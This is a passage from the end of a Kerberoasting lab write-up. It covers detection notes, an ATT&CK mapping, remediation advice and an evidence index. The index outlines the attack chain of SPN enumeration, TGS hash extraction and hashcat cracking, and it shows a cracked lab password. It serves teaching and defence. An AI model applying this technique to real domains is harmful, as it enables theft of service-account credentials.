3. **Kerberoasting produces no failed-authentication artifacts.** The TGS request is a normal, successful Kerberos operation from the KDC's perspective — there is no invalid-password event to alert on. Detection has to rely on other signals (see the companion blue-team write-up), such as Event ID 4769 correlation, ticket encryption-type anomalies, or unusual volumes/patterns of service-ticket requests.
4. **Service accounts are frequently over-privileged.** This lab did not need to demonstrate lateral movement to prove impact — the recovered credential itself is the finding. In production environments, the value of a Kerberoasted account is entirely dependent on what that account can already access.

---

## 7. MITRE ATT&CK Mapping

| Tactic | Technique |
|---|---|
| Credential Access | **T1558.003** — Steal or Forge Kerberos Tickets: Kerberoasting |
| Discovery | T1087.002 — Account Discovery: Domain Account |
| Discovery | T1069.002 — Permission Groups Discovery: Domain Groups |

---

## 8. Remediation Recommendations

- **Use long, random, unique passwords** for all service accounts (25+ characters), or migrate to **Group Managed Service Accounts (gMSA)**, which rotate their password automatically and are not practically crackable.
- **Enforce AES-only Kerberos domain-wide** by setting `msDS-SupportedEncryptionTypes` appropriately and disabling RC4 support in domain-wide Kerberos policy, removing the cheaper RC4-based Kerberoasting path entirely.
- **Restrict SPN assignment** to only the accounts that genuinely require it, and treat any user account (as opposed to a computer or managed service account) with an SPN as a high-value target for monitoring.
- **Monitor Kerberos TGS activity** (Event ID 4769) for anomalies: unusual encryption-type downgrades, a single account requesting tickets for an unusual number of distinct SPNs in a short window, or requests occurring outside of that service's normal usage pattern.
- **Apply least privilege to service accounts** so that even if one is Kerberoasted and cracked, the resulting access is limited.

---

## Appendix: Evidence Index

| # | File | Description |
|---|---|---|
| 1 | `screenshots/01-recon-nmap-nxc.png` | Ping, SMB credential validation (`nxc`), and `nmap -sC -sV` service scan |
| 2 | `screenshots/02-adusers-enumeration.png` | Domain user enumeration (`Get-ADUser -Filter *`) |
| 3 | `screenshots/03-setspn-enum.png` | `setspn -Q */*` identifying `svc-sql`'s SPN |
| 4 | `screenshots/04-initial-tgs-attempt.png` | Initial TGS request failing with `KDC_ERR_ETYPE_NOSUPP` |
| 5 | `screenshots/05-msds-encryption-blank.png` | `msDS-SupportedEncryptionTypes` confirmed unset on `svc-sql` |
| 6 | `screenshots/06-msds-encryption-set28.png` | Attribute explicitly set to `28` (RC4+AES128+AES256) |
| 7 | `screenshots/07-spn-enumeration-success.png` | Clean SPN enumeration after fixing Kali's Kerberos config |
| 8 | `screenshots/08-tgs-hash-obtained-svcsql.png` | Successful `$krb5tgs$18$` (AES256) hash extraction for `svc-sql` |
| 9 | `screenshots/09-hash-isolated-grep.png` | Isolating the hash into `svc-sql.hash` |
| 10 | `screenshots/10-rockyou-wordlist-present.png` | Confirming `rockyou.txt` availability |
| 11 | `screenshots/11-hashcat-pocl-fixed.png` | Hashcat running against `svc-sql.hash` after enabling a CPU OpenCL backend |
| 12 | `screenshots/12-hashcat-exhausted-svcsql.png` | RockYou exhausted against `svc-sql.hash` — not cracked |
| 13 | `screenshots/13-svcnurgle-hash-workdir.png` | Extracting and isolating the RC4 `svc-nurgle` hash |
| 14 | `screenshots/14-hashcat-mode13100-svcnurgle.png` | Hashcat mode 13100 running against `svc-nurgle.hash` |
| 15 | `screenshots/15-svcnurgle-cracked-password.png` | Recovered plaintext password: `su.PER_07` |
